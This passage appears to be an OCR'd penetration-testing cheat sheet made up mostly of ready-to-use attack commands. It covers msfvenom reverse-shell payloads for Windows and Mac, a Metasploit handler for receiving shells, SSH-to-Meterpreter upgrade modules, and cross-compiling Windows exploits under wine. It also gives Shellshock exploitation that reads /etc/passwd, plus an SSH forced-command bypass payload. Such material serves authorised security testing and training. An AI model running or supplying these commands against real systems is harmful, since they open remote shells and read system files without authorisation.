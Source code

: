 Windows Based Shellcode

msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f

Mac Based Shellcode

msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f

Handlers Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

use exploit/multi/handler

set PAYLOAD

set LHOST

set LPORT

set ExitOnSession false

exploit -j -z

Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

SSH to Meterpreter:

use auxiliary/scanner/ssh/ssh_login

use post/multi/manage/shell_to_meterpreter

https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/

Compiling Windows Exploits on Kali

wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download
wine mingw-get-setup.exe
select mingw32-base

cd /root/.wine/drive_c/windows
wget http://gojhonny.com/misc/mingw\_bin.zip && unzip mingw_bin.zip
cd /root/.wine/drive_c/MinGW/bin
wine gcc -o ability.exe /tmp/exploit.c -lwsock32
wine ability.exe

Cross Compiling Exploits

gcc -m32 -o output32 hello.c (32 bit)
gcc -m64 -o output hello.c (64 bit)
Shellshock

git clone https://github.com/nccgroup/shocker

./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose

Shell Shock SSH Forced Command
Check for forced command by enabling all debug output with ssh
ssh -vvv
ssh -i noob noob@$ip '() { :;}; /bin/bash'
